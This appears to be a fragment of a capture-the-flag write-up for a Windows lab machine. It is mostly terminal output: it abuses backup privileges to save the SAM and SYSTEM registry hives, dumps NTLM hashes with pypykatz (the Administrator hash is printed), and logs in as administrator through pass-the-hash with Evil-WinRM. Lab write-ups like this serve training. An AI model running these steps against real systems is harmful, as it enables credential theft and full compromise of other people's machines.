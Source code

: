 
    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         10/8/2024   6:33 PM             34 user.txt
******************************************************************************************************************************************************************************************************
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
******************************************************************************************************************************************************************************************************
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
cd Temp
download sam
download system
******************************************************************************************************************************************************************************************************
└─$ pypykatz registry --sam sam system          
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
******************************************************************************************************************************************************************************************************
└─$ evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 
******************************************************************************************************************************************************************************************************
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-ChildItem -Path C:\ -Recurse -Filter "root.txt" -ErrorAction SilentlyContinue


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         10/8/2024   6:33 PM             34 root.txt
******************************************************************************************************************************************************************************************************











